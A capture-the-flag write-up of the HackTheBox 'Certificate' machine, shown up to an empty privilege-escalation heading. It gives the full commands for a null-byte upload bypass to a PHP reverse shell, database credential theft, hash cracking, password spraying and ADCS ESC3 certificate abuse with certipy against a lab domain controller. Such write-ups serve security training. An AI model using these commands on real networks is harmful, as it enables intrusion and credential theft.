# Summary

_Certificate_ is a Hard rated machine from _HackTheBox_. In order to fully compromise the target host, one must exploit/abuse multiple vulnerabilities and misconfigurations. The full breakdown can be found in the remediation section at the end of the writeup.

## Attack Path Summary

```
Webapp enumeration → Upload filter bypass with Null-byte to reverse shell → Compromising local MySQL DB → Enumerating DB, harvesting valid domain credentials (Sara.B) → AD enumeration → Foothold as Sara.B, filesystem enumeration → PCAP analysis for Kerberos traffic → hash cracking (Lion.SK) → ADCS ESC3 to compromise Ryan.K + foothold → Abusing SeManageVolumePrivilege → Golden Certificate
```

## Attack Path Graphical Summary

```mermaid
flowchart TD
    A["Unauthenticated Enumeration<br/>+ Nmap scans"] --> B["Web App Registration<br/>Student account on course portal"]
    B --> C["Upload Filter Bypass<br/>Null-byte injection"]
    C --> D(["Foothold: xamppuser<br/>RCE via PHP reverse shell"])
    D --> E["Local MySQL Enumeration<br/>Cleartext creds in db.php"]
    E --> F["Credential Harvesting<br/>Dump users table + hash cracking"]
    F --> G(["Compromise: Sara.B<br/>Valid domain creds, WinRM access"])
    G --> H["Credentialed AD Enumeration<br/>netexec, ldapdomaindump, BloodHound"]
    H --> I["Filesystem Enumeration<br/>PCAP loot"]
    I --> J["PCAP Analysis<br/>Extract AS-REQ hash, hash cracking"]
    J --> K(["Compromise: Lion.SK<br/>Member of Domain CRA Managers"])
    K --> L["ADCS Template Review<br/> SignedUser template"]
    L --> M["ESC3 Abuse"]
    M --> N(["Compromise: Ryan.K<br/>Member of Domain Storage Managers"])
    N --> O["Privilege Abuse<br/>SeManageVolumePrivilege bypasses file ACLs"]
    O --> P["CA Private Key Extraction"]
    P --> Q["Golden Certificate Forgery"]
    Q --> R(["Domain Compromise<br/>Administrator NT hash"])

    classDef foothold fill:#2d3748,stroke:#1a202c,stroke-width:2px,color:#fff
    classDef compromise fill:#742a2a,stroke:#4a1515,stroke-width:2px,color:#fff
    classDef final fill:#22543d,stroke:#14321f,stroke-width:3px,color:#fff
    classDef step fill:#edf2f7,stroke:#a0aec0,stroke-width:1px,color:#1a202c

    class A,B,C,E,F,H,I,J,L,M,O,P,Q step
    class D foothold
    class G,K,N compromise
    class R final
```

---
# Preliminary Enumeration

## Target Host Information

Performing a null authentication attempt to inspect whether this manner of authentication is possible, whether SMB signing is on and obtain domain and host names:

```bash
netexec smb 10.129.245.51 -u '' -p ''
```



As seen above, SMB signing is enforced, null auth returns True - functionality level needs to be determined.

It is possible to use the above _netexec_ execution with the `--generate-hosts-file` and `--generate-krb5-file` options. Such execution will provide accurate entries for my local _/etc/hosts_ and  _/etc/krb5.conf_ files. I added the target host as an entry to my local hosts file:



## Nmap Scans

### Nmap TCP Scan

Performing a full TCP range port scan to identify open ports, then targeting them specifically with default enumeration scripts:

```bash
sudo nmap -v -p- --max-rate 1500 -sS -n -Pn -oN Scans/Certificate_TCP_discovery DC01
ports=$(grep open Scans/Certificate_TCP_discovery | cut -d'/' -f1 | paste -sd,)
sudo nmap -p$ports -v -sC -sV -sT -T4 -oN Scans/Certificate_TCP_service DC01

Nmap scan report for DC01 (10.129.245.51)
Host is up (0.020s latency).
rDNS record for 10.129.245.51: DC01.certificate.htb

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Apache httpd 2.4.58 (OpenSSL/3.1.3 PHP/8.0.30)
| http-methods: 
|_  Supported Methods: HEAD
|_http-server-header: Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.0.30
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-10-01 18:16:21Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: certificate.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC01.certificate.htb, DNS:certificate.htb, DNS:CERTIFICATE
[..]
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: certificate.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC01.certificate.htb, DNS:certificate.htb, DNS:CERTIFICATE
[...]
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: certificate.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC01.certificate.htb, DNS:certificate.htb, DNS:CERTIFICATE
| Issuer: commonName=Certificate-LTD-CA
[...]
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: certificate.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC01.certificate.htb, DNS:certificate.htb, DNS:CERTIFICATE
[...]
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49160/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49695/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49697/tcp open  msrpc         Microsoft Windows RPC
49699/tcp open  msrpc         Microsoft Windows RPC
49718/tcp open  msrpc         Microsoft Windows RPC
65528/tcp open  msrpc         Microsoft Windows RPC
Service Info: Hosts: certificate.htb, DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-10-01T18:17:14
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
|_clock-skew: 7h59m59s
```

### Notes on Scan Results

- The target host is an AD domain controller. As such, many default (DNS, Kerberos, RPC, LDAP) and common (WinRM) services are accessible over their default ports. 
- _Apache/2.4.58_ HTTP server is accessible over default port 80.
- There is a clock skew of approximately 8 hours between my local host and the target host, if Kerberos authentication will be required - I would have to sync the time on my local host.
---
# _Apache/2.4.58_ HTTP Web Application (80/TCP)

## Tech Stack

### _cURL_ & _whatweb_

The following commands were used to retrieve HTTP headers from the target web server and fingerprint technologies, frameworks and server details:

```bash
curl -I 'http://certificate.htb'

whatweb 'http://certificate.htb'
```

No significant information was discovered.

## Website Browsing

Browsing to `http://certificate.htb/` leads to the following web page, offering online courses and certifications:


Browsing further, I note there's a possibility to log in or register:



Registration can be performed as either student or teacher. I create an account as a student:



Browsing through one of the course's material is possible after visiting their dedicated page and clicking _Enroll_. The bottom entry on the course material offers a submission option. Viewing the URL, `upload.php?s_id=36`, also indicates that there is an upload functionality:



As mentioned below, the upload is restricted to _pdf_, _docx_, _pptx_ and _xlsx_ documents, these files must be uploaded as a _zip_ archive:


# Foothold

## Upload Bypass - Failed Attempts

I have tried embedding a PHP reverse shell within a legitimate PDF file, zipped and uploaded it:



The file uploads successfully, and a link to the upload file is provided so it is accessible.


However, it did not trigger an execution and a callback to the _netcat_ listener.

Trying to change extensions, MIME file type or uploading PHP files fail as well. The archive file and the contents of the archived files are inspected in a manner that filters them and protects the function efficiently against the more common methods of upload bypass.

## Upload Bypass - Null-byte Injection

Nevertheless, a method that proved successful is Null-byte injection. This method relies on truncating and terminating a string prematurely, potentially throwing off the filtering and successfully uploading a file type that otherwise would have been blocked. To attempt this method, I will create a file, paste a PHP reverse shell within it, allocating a dedicated spare byte to potentially truncate the extension and archive it into a _zip_ file:

```bash
# Create a blank file, paste a PHP reverse, use the name as below
touch revshell.phpD.pdf

# Archive it into zip
zip nulling.zip revshell.phpD.pdf
```

Now, using _hexeditor_, I will inject the null-byte. Instead of the `44` corresponding to `D`, I will place a `00` corresponding to ` `. This way, the file would be uploaded as `revshell.php .pdf` and will be executable as a PHP file due to the termination.



The action of replacing this specific `44` byte is performed twice. Once at the beginning of the file and once in its end, where the byte appears as a part of the string naming the file.

File uploads successfully. When clicking on the provided link it redirects to the following URL `http://certificate.htb/static/uploads/371dcc2325f3edac50d1371fb8b09481/revshell.php%20.pdf`. Truncating the excess and browsing to `http://certificate.htb/static/uploads/371dcc2325f3edac50d1371fb8b09481/revshell.php` should execute the PHP reverse shell:




As seen above, a connection is received on my _netcat_ listener and I obtain command execution on the target host as `xamppuser`.

# Compromising `Sara.B`

## Database Enumeration

Reviewing the web server root, I locate a _db.php_ file that contains cleartext credentials for a _MySQL_ database:



Since an instance of _MySQL_ was not detected when the host was previously scanned, I check that it is indeed active:



_MySQL_ is active, as port 3306 is listening, although not exposed externally. 

To enumerate the database on the target host itself, it's possible to execute the _MySQL_ binary specifying credentials, database and command - without an interactive session with the program:

```bash
.\xamppm\mysql\bin\mysql.exe -u certificate_webapp_user -p"[...]" -D 'Certificate_WEBAPP_DB' -e 'show tables;'
```



From the output above, the most potentially revealing table is _users_, therefore I will present all its content, then narrow it to the columns I deem more interesting:

```bash
PS C:\> .\xampp\mysql\bin\mysql.exe -u certificate_webapp_user -p"[...]" -D 'Certificate_WEBAPP_DB' -e 'select * from users;'

.\xampp\mysql\bin\mysql.exe -u certificate_webapp_user -p"[...]" -D 'Certificate_WEBAPP_DB' -e 'select username,password,role from users;'
```



Above, passwords stored as hashes for multiple users can be harvested. Attempting to crack the hashes:

```powershell
.\hashcat.exe -m 3200 -a 0 .\Crack2026\certificate_db.txt .\rockyou.txt
```



Only a single hash cracked, the one of `Sara.B`, confirming that the user exists on the domain with `net user`:



Confirming authentication:



Authenticating over WinRM:



# Credentialed AD Enumeration

## Password Policy and Vector Elimination

Having valid domain credentials, I can now perform a more structured enumeration.

Starting by using _netexec_'s `--users-export Lists/domain_users.txt` and also `--pass-pol` to create a complete domain user list and view the password policy:



The password policy is rather permissive. It locks out accounts after 15 failed login attempts and only for a single minute. Password complexity is set to `1`, which means that passwords meet three out of four conditions (Upper and lowercase, digits and non-alphanumeric characters). Furthermore, the minimum password length is 7 characters. This policy will allow me to spray a password every time I recover one, but will not allow more aggressive brute-force attempts.

So far I have collected `Sara.B`'s password and the password to access _MySQL_ database - both could be re-used. Having a valid domain user list, valid domain credentials and knowing the password policy I can perform the following steps:

- Eliminate password re-use:

```bash
kerbrute passwordspray --dc 'DC01' -d 'certificate.htb' Lists/domain_users.txt '[...]'
```

- Eliminate AS-REP roast:

```bash
impacket-GetNPUsers certificate.htb/ -usersfile Lists/domain_users.txt -format hashcat -outputfile Hashes/asreprost.hash -dc-ip 10.129.245.51
```

- Eliminate Kerberoast:

```bash
impacket-GetUserSPNs 'certificate.htb/Sara.B:[...]'
```

- Probing whether ADCS is implemented:

```bash
netexec ldap DC01 -u 'sara.b' -p '[...]' -M adcs
```



ADCS is indeed implemented on the domain. 

## Credentialed LDAP Enumeration

Having valid domain credentials allows me to enumerate the Active Directory environment using _ldapdomaindump_ and _rusthound-ce_ _BloodHound_ collector. The output from these tools can help map relationships and identify attack paths visually.
### _ldapdomaindump_

Using `Sara.B`'s valid credentials to execute _ldapdomaindump_:

```bash
ldapdomaindump -u 'certificate.htb\Sara.B' -p '[...]' ldap://10.129.245.51 --no-json --no-grep
```

Reviewing the _domain_users_by_group.html_ output file I gather the following insights:

- Members of the _Help Desk_ group are privileged to establish sessions over WinRM and RDP, as per the nesting:





- The compromised user `Sara.B` is a member of _Help Desk_. `xamppuser`, as which I have a reverse shell on the target host, is not a member of any group of interest. 
- Since there are three more non-default groups - I will revisit the output file if needed.

### _BloodHound_

Using `Sara.B`'s valid credentials to collect data with _rusthound-ce_:

```bash
rusthound-ce --domain 'certificate.htb' -u 'Sara.B@certificate.htb' -z
```

Loading the newly-created _.zip_ file into the _BloodHound_ GUI, I mark `Sara.B` as owned.  I could not pinpoint any object of use as things stand, I will return to revisit if further users will be compromised.

# Compromising `Lion.SK`

## File System Enumeration

Knowing that `Sara.B` can authenticate over WinRM, I start a remote session on the target host:



Within its _Documents_ directory, a non-default directory named _WS01_:



_WS01_ holds a PCAP file and a text file describing an issue in which the _WS01_ workstation authentication to the DC crashes it:



## PCAP Analysis

The situation calls to analyze that packet capture. It is not very extensive and much narrower when narrowing it down to the Kerberos protocol:



Reviewing one of the packets, I manage to harvest a Kerberos hash from an _as_req_ one:



To simplify the process, I will use _[Krb5RoastParser](https://github.com/jalvarezz13/Krb5RoastParser)_, it will extract the hash in a _hashcat_-ready fomat:



Cracking the hash with _hashcat_, using module 19900. Unlike the commonly used 13100 for TGS-REQ (Kerberoast product) or 18200 for AS-REP (AS-REP Roast product), module 19900 is the one used for AS-REQ: 

```powershell
.\hashcat.exe -m 19900 -a 0 .\Crack2026\lion.sk.txt .\rockyou.txt
```

The hash cracks successfully and I recover `Lion.SK`'s password:



`Lion.SK` is a member of _Remote Management Users_ (as such also _Help Desk_) and _Domain CRA Managers_ groups, the latter isn't a default group:



From the LDAP description filed, I can gather that members of this group might be rather privileged in the context of ADCS:

```
The members of this security group are responsible for issuing and revoking multiple certificates for the domain users
```

# Compromising `Ryan.K`

## ADCS ESC3

Having compromise `Lion.SK`, a member of _Domain CRA Managers_, I will enumerate ADCS, looking for vulnerable templates:

```bash
certipy-ad find -u 'Lion.SK' -p '' -dc-ip '10.129.245.51' -stdout -vulnerable
```



From the output above, I can collect the vulnerable template name and its certificate authority (CA). From the below output, I can understand that the template is vulnerable to ESC3.



_ESC3_ is an ADCS escalation based on Enrollment Agents that can request tickets on behalf of other users. Once an Enrollment Agent certificate is obtained, it can potentially be used for privilege escalation. 

The first step is obtaining an Enrollment Agent certificate:

```bash
certipy-ad req -u 'Lion.SK@certificate.htb' -p '[...]' -dc-ip '10.129.245.51' -target 'DC01.certificate.htb' -ca 'Certificate-LTD-CA' -template 'Delegated-CRA'
```



This successfully grants a certificate, _lion.sk.pfx_. Having it, I can request a certificate on behalf of another user. The obvious choice would be `administrator`:

```bash
certipy-ad req -u 'Lion.SK@certificate.htb' -p '[...]' -dc-ip '10.129.245.51' -target 'DC01.certificate.htb' -ca 'Certificate-LTD-CA' -template 'Delegated-CRA' -pfx lion.sk.pfx  -on-behalf-of 'CERTIFICATE.HTB\Administrator'
```

However, it errors and fails. Nevertheless, when I previously enumerated, I have focused solely on the vulnerable templates. It might be that reviewing other templates, I could still escalate privileges:

```bash
certipy-ad find -u 'Lion.SK' -p '[...]' -dc-ip '10.129.245.51' -stdout
```



_SignedUser_ template is stated to be a potential target when attempting ESC3. Furthermore, when reviewing `Lion.SK`'s _BloodHound_ node, I see that its membership in _Domain CRA Managers_ group allows it to enroll to the template, but it allows the same action for members of _Domain Users_ as well:



I move to target the _SignedUser_ template:

```bash
certipy-ad req -u 'Lion.SK@certificate.htb' -p '[...]' -dc-ip '10.129.245.51' -target 'DC01.certificate.htb' -ca 'Certificate-LTD-CA' -template 'SignedUser' -pfx lion.sk.pfx  -on-behalf-of 'CERTIFICATE\Administrator'
```

It errors, again. Reviewing the template once more, I see that subject must have an email address:



To check whether `administrator` has an email, I use _bloodyAD_:

```bash
bloodyad --host DC01.certificate.htb -d certificate.htb -u 'Lion.SK' -p '[...]' get object Administrator --attr mail,userPrincipalName
```



As seen above, comparing the output of `administrator` and `Lion.SK` - the former does not contain an email address. Therefore, I will have to search for a new target to issue a certificate on its behalf. 

Remembering there are still groups that I have not visited, thinking that might be the differentiating factor as far as privileges go, I review the description and membership of _Domain Storage Managers_:



`Ryan.K` is its sole member, from the group description I can gather it does seem privileged to an extent. I will target `Ryan.K`, continuing from the second step, requesting a certificate on its behalf:

```bash
certipy-ad req -u 'Lion.SK@certificate.htb' -p '[...]' -dc-ip '10.129.245.51' -target 'DC01.certificate.htb' -ca 'Certificate-LTD-CA' -template 'SignedUser' -pfx lion.sk.pfx  -on-behalf-of 'CERTIFICATE\Ryan.K'
```



As seen above, I managed to get a certificate for `Ryan.K`. Now, to dump its NT hash, I will have to use the `auth` module on _certipy-ad_. For certificate based authentication, I will have to sync the time on my local host to the target host's and only then attempt to authenticate:

```bash
sudo ntpdate DC01

certipy-ad auth -pfx ryan.k.pfx -dc-ip '10.129.245.51'
```



Authenticated successfully as `Ryan.K`, got a session as the user on the target host:



# Privilege Escalation

## _SeManageVolumePrivilege_

